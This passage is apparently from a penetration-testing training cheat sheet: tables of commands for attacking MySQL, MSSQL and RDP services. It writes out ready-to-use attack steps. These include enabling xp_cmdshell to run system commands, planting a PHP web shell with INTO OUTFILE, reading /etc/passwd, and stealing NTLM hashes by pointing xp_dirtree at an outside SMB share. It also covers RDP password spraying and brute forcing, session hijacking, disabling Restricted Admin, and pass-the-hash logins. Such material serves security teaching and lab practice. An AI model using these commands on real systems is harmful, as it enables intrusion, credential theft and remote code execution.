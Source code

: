 | `mysql> SHOW TABLES;` | Show all available tables in the selected database in MySQL. |
| `mysql> SELECT * FROM users;` | Select all available entries from the "users" table in MySQL. |
| `sqlcmd> SELECT name FROM master.dbo.sysdatabases` | Show all available databases in MSSQL. |
| `sqlcmd> USE htbusers` | Select a specific database in MSSQL. |
| `sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES` | Show all available tables in the selected database in MSSQL. |
| `sqlcmd> SELECT * FROM users` | Select all available entries from the "users" table in MSSQL. |
| `sqlcmd> EXECUTE sp_configure 'show advanced options', 1` | To allow advanced options to be changed. |
| `sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1` | To enable the xp_cmdshell. |
| `sqlcmd> RECONFIGURE` | To be used after each sp_configure command to apply the changes. |
| `sqlcmd> xp_cmdshell 'whoami'` | Execute a system command from MSSQL server. |
| `mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'` | Create a file using MySQL. |
| `mysql> show variables like "secure_file_priv";` | Check if the the secure file privileges are empty to read locally stored files on the system. |
| `sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents` | Read local files in MSSQL. |
| `mysql> select LOAD_FILE("/etc/passwd");` | Read local files in MySQL. |
| `sqlcmd> EXEC master..xp_dirtree '\\10.10.110.17\share\'` | Hash stealing using the `xp_dirtree` command in MSSQL. |
| `sqlcmd> EXEC master..xp_subdirs '\\10.10.110.17\share\'` | Hash stealing using the `xp_subdirs` command in MSSQL. |
| `sqlcmd> SELECT srvname, isremote FROM sysservers` | Identify linked servers in MSSQL.  |
| `sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]` | Identify the user and its privileges used for the remote connection in MSSQL.  |



---
## Attacking RDP

|**Command**|**Description**|
|-|-|
| `crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'` | Password spraying against the RDP service. |
| `hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp` | Brute-forcing the RDP service. |
| `rdesktop -u admin -p password123 192.168.2.143` | Connect to the RDP service using `rdesktop` in Linux. |
| `tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}` | Impersonate a user without its password. |
| `net start sessionhijack` | Execute the RDP session hijack. |
| `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f` | Enable "Restricted Admin Mode" on the target Windows host. |
| `xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA` | Use the Pass-The-Hash technique to login on the target host without a password. |
